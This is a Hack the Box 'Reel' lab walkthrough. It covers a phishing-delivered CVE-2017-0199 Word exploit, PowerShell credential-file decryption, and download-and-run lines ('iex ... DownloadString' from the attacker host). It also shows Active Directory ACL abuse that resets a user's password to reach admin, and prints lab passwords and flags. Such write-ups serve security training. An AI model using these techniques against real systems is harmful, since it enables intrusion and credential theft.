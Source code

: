 ```yaml
---
layout: post
title: Hack the Box - Reel
author: Kolja
categories: [HtB]
tags: [ad]
---
```



This box is part of the Active Directory 101 path, which is why I took a look at it.

## Enumeration
```
sudo nmap -sS -p- 10.10.10.77
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-24 16:24 EDT
Nmap scan report for 10.10.10.77
Host is up (0.036s latency).                                                 
Not shown: 65531 filtered tcp ports (no-response)                            
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
135/tcp open  msrpc

Nmap done: 1 IP address (1 host up) scanned in 164.70 seconds
```

The FTP share has multiple files. One of them prompts us to send `.rtf` files. Another gives details on applocker rules. 

We can find a mail address using `exiftool`:
```
exiftool Windows\ Event\ Forwarding.docx 
[...]
Creator                         : nico@megabank.com
[...]
```

## Foothold
When searching for `rtf` and remote code execution one of the first things, that comes up is CVE-2017-0199 which is a Microsoft Word vulnerability, that existed around the time the box was released. There is an exploit in `metasploit` from around that time:
```
exploit/windows/fileformat/office_word_hta
```
This gives us a file, which we then can send via email to the box:

```
sudo sendEmail -t nico@megabank.com -f techsupport@megabank.com -s 10.10.10.77 -u "Important Stuff" -a /root/.msf4/local/msf.doc
```
I had to play around with the ports a bit, but port 80 and port 443 seem to be reachable by the machine and this gave me a shell.

There is the flag as well as credentials on our Desktop:
```
C:\Users\nico\Desktop>type user.txt                                                                          
fa363aebcfa2c29897a69af385fee971
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
We can get credentials from this:
```
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

We can use the user tom to log in over ssh.

## Privilege escalation
We can run PrivescCheck, which does give us the credentials for the `nico` user:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/PrivescCheck.ps1')                             
PS C:\Users\tom> Invoke-PrivescCheck
[...]
+------+------------------------------------------------+------+                                                                
| TEST | CREDS > WinLogon                               | VULN |                                                                
+------+------------------------------------------------+------+                                                                
| DESC | Parse the Winlogon registry keys and check whether    |                                                                
|      | they contain any clear-text password. Entries that    |                                                                
|      | have an empty password field are filtered out.        |                                                                
+------+-------------------------------------------------------+                                                                
[*] Found 1 result(s).                                                                                                          


Domain   : HTB                                                                                                                  
Username : nico                                                                                                                 
Password : 4dri@na2017!** 
```

There were some files from an AD audit left on the machine. However, I found it easier to collect new data for BloodHound. For this I used the PowerShell collector:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/SharpHound.ps1')                             
PS C:\Users\tom> Invoke-BloodHound -CollectionMethod All
```

There were several interesting edges in the bloodhound data. Our user is a member of the `Print Operators`-Group, which is why we can log in on the DC. As we are in this group we should be able to load a vulnerable driver and escalate our privileges this way. However, as we have some AppLocker rules and as this is an Active Directory box this is probably not the intended path.

![[htb_reel_attack_path_one.png]]


Our user also has `WriteOwner`-Permissions on the `claire` user:

![[htb_reel_attack_path_two.png]]

The `claire` user has `GenericWrite` and `WriteDacl`-Permissions on a `backups_admins`-Group:
![[htb_reel_attack_path_three.png]]
Being a member of this group might allow us to back up for example the `NTDS.DIT` file. So my initial assumption is, that this might be the intended path here. The `nico` user has very similar properties to the `tom` user, however, as we have credentials for `tom` it seems easier to use the `tom` user.

Setting ourselves as the owner of `claire`:
```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```
Giving us `GenericAll` on `claire`:
```
Add-DomainObjectAcl -TargetIdentity claire -Rights All -PrincipalIdentity tom
```
Change password of `claire`:
```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

Creating a credentials object for `claire` to continue:
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $SecPassword)
```

Giving us the right to add members:
```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "BACKUP_ADMINS" -Rights WriteMembers -PrincipalIdentity claire
```
Adding `tom` as a group member:

```
Add-DomainGroupMember -Identity 'BACKUP_ADMINS' -Members 'tom' -Credential $Cred
```

Verifying, that this worked:
```
Get-DomainGroupMember -Identity 'BACKUP_ADMINS'
```

The `icacls` tool tells us, that we have access to the home folder of `Administrator` if we are a member of the `Backup_Admins`-Group. On the desktop of this user we find a script with the password for the user in it:
```
tom@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1                                                    
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"
[...]
```
We can then log in over ssh and get the root flag:
```
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator>cd Desktop                                                                            

administrator@REEL C:\Users\Administrator\Desktop>type root.txt                                                                 
1018a0331e686176ff4577c728eaf32a
```
